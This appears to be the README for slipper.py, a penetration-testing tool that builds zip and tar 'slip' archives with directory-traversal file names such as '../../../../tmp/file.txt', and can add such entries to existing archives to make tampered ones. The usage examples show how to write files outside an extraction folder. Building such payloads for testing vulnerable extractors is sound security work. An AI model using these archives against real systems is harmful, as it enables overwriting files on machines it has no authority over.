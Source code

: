 
# Tool to build zip and tar slip payloads 

Build zip and tar slip payloads (directory traversals for file writes). Details in the [snyk github](https://github.com/snyk/zip-slip-vulnerability) for known vulnerable items.


```

usage: slipper.py [-h]
                  [-p filename contents]
                  (-z ZIP_FILENAME | -t TAR_FILENAME)
                  [-i INPUT_FILENAME]

options:
  -h, --help         show this help
                     message and exit
  -p filename contents, --payload filename contents
                     add filename with
                     contents to archive
  -z ZIP_FILENAME, --zip_filename ZIP_FILENAME
                     create a zip with
                     given name
  -t TAR_FILENAME, --tar_filename TAR_FILENAME
                     create a tar with
                     given name
  -i INPUT_FILENAME, --input_filename INPUT_FILENAME
                     create a zip or tar
                     with the given
                     archive as a
                     starting point

```

Note that `-p` can be repeated to add multiple `filename, content` pairs to each archive type.


## Zip 

Supply the filename with the `-z` flag:

`python slipper.py -z foo.zip -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' -p 'required.xml' '...'`

## Zip append

Supply the filename with the `-z` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.zip -z tampered.zip -p 'new/file.txt' 'content'
```

## Tar 

Supply the filename with the `-t` flag:

`python slipper.py -t some.tar -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' `

## Tar append

Supply the filename with the `-t` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.tar -t tampered.tar -p 'new/file.txt' 'content'
```
